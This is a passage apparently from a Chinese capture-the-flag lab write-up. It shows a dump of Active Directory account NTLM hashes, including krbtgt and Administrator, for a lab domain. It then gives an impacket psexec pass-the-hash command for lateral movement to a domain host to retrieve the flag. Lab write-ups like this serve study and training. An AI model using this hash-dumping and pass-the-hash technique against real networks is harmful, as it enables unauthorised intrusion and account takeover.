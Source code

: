 ```bash
502     krbtgt  cb976ec1a1bf8a14a15142c6fecc540e        514
1106    zhangtao        e786c4a4987ced162c496d0519496729        512
1000    WIN-DC$ 27c19858fdbae33ee3109b2e102323eb        532480
500     Administrator   6341235defdaed66fb7b682665752c9a        512
1105    chenglei        0c00801c30594a1b8eaa889d237c5382        512
1103    WIN-HAUWOLAO$   6a39862c5edcb4fce18f838a6bb5f1fd        4096
1104    zhangwen        fa7d776fdfc82d3f43c9d8b7f5312d77        512
```

psexec横移获取flag

```bash
python psexec.py -hashes :6341235defdaed66fb7b682665752c9a xiaorang.lab/administrator@172.22.13.6 -codec gbk
```

![image-20231017013754740](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017013754740.png)